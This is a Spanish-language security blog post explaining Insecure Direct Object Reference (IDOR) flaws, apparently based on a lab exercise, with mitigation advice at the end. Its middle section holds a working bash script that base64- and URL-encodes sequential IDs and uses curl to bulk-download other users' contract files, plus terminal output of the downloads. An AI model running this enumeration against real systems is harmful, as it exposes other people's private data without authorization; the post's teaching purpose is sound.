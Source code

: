 ```yaml
---
date: 2024-05-26T14:15:05.000Z
layout: post
comments: true
title: Insecure Direct Object References (IDOR)
subtitle: 'Control de acceso'
description: >-
image: >-
    https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/idorportada.png
optimized_image: >-
    https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/idorportada.png
category: ciberseguridad
tags: 
  - hacking
  - owasp
  - web
  - access
author: Felipe Canales Cayuqueo
paginate: true
---
```


Las vulnerabilidades de **Referencias Directas a Objetos Inseguros (IDOR)** son un tipo común de problema de seguridad en aplicaciones web. Estas ocurren cuando una aplicación web gestiona directamente referencias a objetos internos, como archivos o entradas de base de datos, a través de identificadores que son visibles y manipulables por el usuario, como en URLs o formularios.

Esto puede exponer a la aplicación a:

- **Divulgación de información**: Puedes acceder a datos sensibles de otros usuarios, como información financiera.
- **Modificación no autorizada**: Podrías alterar o eliminar datos de otros usuarios si la URL te permite realizar estas acciones.
- **Elevación de privilegios**: Si manipulas parámetros en la URL para acceder a funciones administrativas, podrías realizar acciones reservadas solo para los administradores.

### Ejemplo

Una aplicación web te permite visualizar tu perfil mediante un enlace del tipo `/profile/api.php/profile/1`. Este enlace muestra directamente datos de tu perfil por medio de una API. 

[![idor10](/images/idor10.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/idor10.png)

[![idor11](/images/idor11.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/idor11.png)

Si cambias el número de  `/profile/api.php/profile/1` en la URL a `4`, podrías acceder a datos de otros usuarios registrados si la aplicación no verifica adecuadamente tus permisos.

[![idor12](/images/idor12.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/idor12.png)

[![idor13](/images/idor13.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/idor13.png)


### Bypassing Encoded References

En muchos sistemas, los identificadores de objetos, como IDs de usuario o archivos, se transmiten en formatos codificados (por ejemplo, base64) para disfrazar la información o integrarse con tecnologías web de manera más fluida. Una vez que el atacante comprende cómo se estructuran los identificadores, puede modificarlos para intentar acceder a objetos a los que no debería tener acceso. Esto podría incluir cambiar un número de ID en un URL, parámetro de formulario o dentro de una cookie. 

Consideremos el siguiente ejemplo, donde se identifica el parámetro `contract`. Como se observa, este parámetro está codificado para URL.

[![idor7](/images/idor7.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/idor7.png)

[![idor8](/images/idor8.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/idor8.png)

Para determinar el proceso de codificación, se puede analizar el código fuente. Esto permite comprender su funcionamiento y facilita la creación de un script que extraiga la información de manera efectiva.

[![idor9](/images/idor9.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/idor9.png)


- **Codificación en base64**: Usa el comando `echo -n $i | base64` para convertir cada número a base64.
- **Codificación URL**: Las cadenas base64 pueden contener los caracteres `+`, `/` y `=`, los cuales necesitan ser codificados para URLs para prevenir problemas en la interpretación de la URL.
- **Construcción de la URL completa**: Combina la URL base con la cadena codificada.
- **Descarga del archivo**: Usa `curl` para descargar el archivo y lo guarda con un nombre basado en el número de iteración.


```bash
#!/bin/bash

downloadContracts() {
  base_url="http://94.237.54.214:45922/download.php?contract="

  for i in {1..20}; do
    # Codificar el número en base64
    encoded=$(echo -n $i | base64)

    # Codificar la salida base64 para URL (reemplaza '+' por '%2B', '/' por '%2F' y '=' por '%3D')
    url_encoded=${encoded//+/%2B}
    url_encoded=${url_encoded//\//%2F}
    url_encoded=${url_encoded//=/%3D}

    # Construir la URL completa
    full_url="${base_url}${url_encoded}"

    # Descargar el archivo
    curl -o "contract_${i}.pdf" "${full_url}"
  done
}

# Llamada a la función
downloadContracts             
```

```bash
┌─[root@kali]─[/home/user/idor]
└──╼ chmod +x downloadcontracts.sh

┌─[root@kali]─[/home/user/idor]
└──╼ ./downloadcontracts.sh   
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    30  100    30    0     0     72      0 --:--:-- --:--:-- --:--:--    72

┌─[root@kali]─[/home/user/idor]
└──╼ ls
contract_10.pdf  contract_12.pdf  contract_14.pdf  contract_16.pdf  contract_18.pdf  contract_1.pdf   contract_2.pdf  contract_4.pdf  contract_6.pdf  contract_8.pdf  downloadcontracts.sh
contract_11.pdf  contract_13.pdf  contract_15.pdf  contract_17.pdf  contract_19.pdf  contract_20.pdf  contract_3.pdf  contract_5.pdf  contract_7.pdf  contract_9.pdf        
```


### Recomendaciones

Para mitigar las vulnerabilidades de IDOR, es crucial que las aplicaciones:

- Implementen controles de acceso robustos que verifiquen no solo la autenticación, sino también la autorización del usuario para interactuar con el objeto específico.
- Eviten exponer directamente identificadores sensibles o fácilmente predecibles en las URLs.
- Usen métodos indirectos para referenciar a objetos internos, reduciendo la posibilidad de que los usuarios manipulen referencias directas.
